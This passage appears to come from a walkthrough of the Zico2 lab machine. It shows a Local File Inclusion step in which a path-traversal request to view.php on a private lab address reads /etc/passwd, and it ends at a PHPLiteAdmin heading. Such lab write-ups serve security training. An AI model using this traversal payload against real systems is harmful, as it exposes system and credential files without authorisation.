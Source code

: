 ![path](../assets/imgs/zico2/path.png)

Local File Inclusion

```
http://192.168.0.105/view.php?page=../../../../../../etc/passwd
```

![passwd](../assets/imgs/zico2/passwd.png)

PHPLiteAdmin
